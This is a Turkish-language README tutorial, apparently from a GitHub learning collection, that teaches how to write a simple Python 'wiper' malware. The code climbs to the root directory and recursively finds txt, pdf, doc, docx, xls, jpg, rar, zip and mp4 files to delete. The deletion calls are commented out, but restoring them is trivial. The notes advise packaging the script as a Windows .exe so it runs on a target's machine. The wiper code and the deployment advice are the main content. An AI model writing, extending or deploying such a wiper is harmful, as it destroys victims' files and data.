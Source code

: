🕊 Bu döküman [**@KekikAkademi**](https://t.me/KekikAkademi "Telegram: @KekikAkademi") için oluşturulmuştur. ✌🏼
________________________________
# Py4H Simple Wiper Malware v1
![Py Malware](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/4-Py4H_Simple_Wiper_Malware_v1/images/py-malware.png)

Bu yazımızda Python dilinin ne kadar kolay ve güçlü olduğunun bir kanıtını daha göreceğiz. Basit de olsa küçük bir malware programı kodlayacağız.

### **Saldırı Senaryosu:**
Kurban, Python programımızı çalıştırdığında sistemdeki tüm docx, doc, txt, xls, pdf dosyalarını imha etmek.

### **Algoritma:**
-   Başla
   -   Kök dizine in
   -   Belirtilen dosyaları bul ve sil
   -   Bitti

### **Kod Paylaşımı:**
Aşağıdaki kodlar ile kök dizine “/” indik. Bu dizin C:/ de olabilir D:/ de olabilir yani Python programımızın hangi sürücüde çalıştırılacağına bağlıdır.

	suanki_dizin = os.getcwd() #bulundugu dizin
	a = suanki_dizin.split("/")
	sayi = len(a)-1
	for i in range(0,sayi):
		os.chdir(os.pardir)

Daha sonra [benim](https://web.archive.org/web/20190701033756/http://python4hackers.com/author/oguzhan-arslan "Oğuzhan Arslan") bulup geliştirdiğim dizin taramasında kullandığım bir algoritma ile dosyalarımızı bulduk ve sildik.

	girilen_dizinler = []
	 
	def BulunanDizin(gelendizin):
		os.chdir(gelendizin)
		print("girilen dizin >> "+ gelendizin)
		girilen_dizinler.append(gelendizin)
		KontrolEt()
		os.chdir(os.pardir)
	 
	def KontrolEt():
		dosyalr = os.listdir(os.getcwd())
		for i in dosyalr:
			try:
				if re.match(".*txt",i):
					print(i) #os.remove(i)
				elif re.match(".*pdf",i):
					print(i) #os.remove(i)
				elif re.match(".*docx",i):
					print(i) #os.remove(i)
				elif re.match(".*doc",i):
					print(i) #os.remove(i)
				elif re.match(".*xls",i):
					print(i) #os.remove(i)
				elif re.match(".*jpg",i):
					print(i) #os.remove(i)
				elif re.match(".*rar",i):
					print(i) #os.remove(i)
				elif re.match(".*zip",i):
					print(i) #os.remove(i)
				elif re.match(".*mp4",i):
					print(i) #os.remove(i)
				elif os.path.isdir(i):
					if girilen_dizinler.count(i) == 0:
						BulunanDizin(i)
					else:
						pass
				else:
					pass
			except:
				pass

[Kodların Tamamına Burdan Ulaşabilirsiniz!](https://github.com/KekikAkademi/KekikPython/blob/master/4-Py4H_Simple_Wiper_Malware_v1/Py4H_Simple_Wiper_Malware_v1.py)

### **Notlar:**
   -   Tabi ki hedefteki kişinin bilgisayarında Python yüklü olmayabilir bu yüzden programımızı her Windows işletim sisteminde çalışabilmesi için pyinstaller, py2exe ya da cx_freeze modüllerinden birini kullanarak .exe dosyası haline getirmelisiniz.

   -   Şuan çok basit bir şekilde küçük bir malware yazdık, ilerleyen süreçlerde daha komplike hale getirebilirsiniz..

> Bir sonraki yazımızda görüşmek üzere.

[Kaynak](http://python4hackers.com/python-malware/py4h-simple-wiper-malware-v1.html "Saygı ve Özlemle...")
________________________________

📃 **Yandex.Disk Bünyemizde 780GB veri olmuştur.**

_Paylaşılan Kursların Tümünü_ [**@KekikKahve**](https://t.me/KekikKahve) _Grubu notlarından Çağırabilirsiniz.._

🕊️ Bize **oy verip** _paylaşarak_ destek olmaya ne dersin? ✌🏼
#
> Bu readme sayfası oluşturulurken [prose.io](http://prose.io/ "prose.io") ve [stackedit.io](https://stackedit.io/app "stackedit.io") araçlarından yardım alınmıştır..
> Emojiler için [webfx](https://www.webfx.com/tools/emoji-cheat-sheet/ "Emoji Cheat Sheet") sayfası kullanılmıştır.
